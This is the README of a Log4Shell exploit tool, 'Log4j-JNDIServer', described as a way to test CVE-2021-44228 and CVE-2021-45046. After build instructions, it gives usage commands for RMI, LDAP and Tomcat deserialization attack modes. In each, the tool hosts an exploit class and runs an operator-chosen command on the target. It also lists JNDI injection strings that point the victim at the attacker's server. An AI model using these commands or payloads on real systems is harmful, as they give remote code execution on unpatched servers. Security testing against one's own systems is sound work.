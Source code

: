 # Log4j-JNDIServer

This project will help to test the Log4j CVE-2021-44228/CVE-2021-45046 vulnerabilities.

## Installation and Building

- Load the project on Intellij Idea
- Select JDK in "Projects Settings" (CTRL + ALT + SHIFT + S)
- In "Project Settings", create the Artifact -> "Artifacts" -> "Create JAR from Modules" -> In "JAR files from libraries", mark "extract to target JAR" -> "OK"
- Build Project (CTRL + F9). This will create the jar file in /out/artifacts/ folder

### Building with Maven

Requires Java 1.8+ and Maven 3.x+

- `mvn clean package -DskipTests`
- You will find the .jar file in /target folder

## Usages 

### 1.RMI Attack Vector

`java -jar Log4j-JNDIServer.jar 1 <RMI_IP> <RMI_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`

### 2.LDAP Attack Vector

`java -jar Log4j-JNDIServer.jar 2 <LDAP_IP> <LDAP_PORT> <HTTP_PORT> <COMMAND>`

You don't need to host the Exploit.class anymore. The app will start an HTTP server on the indicated port.

You must indicate the command you want to run in the target.

`Injection: {jndi:ldap://<LDAP_IP>:<LDAP_PORT>/Exploit}`

### 3.Deserialization Attack Vector (Using Tomcat payload)

`java -jar Log4j-JNDIServer.jar 3 <RMI_IP> <RMI_PORT> <COMMAND>`

`Injection: {jndi:rmi://<RMI_IP>:<RMI_PORT>/Foo}`


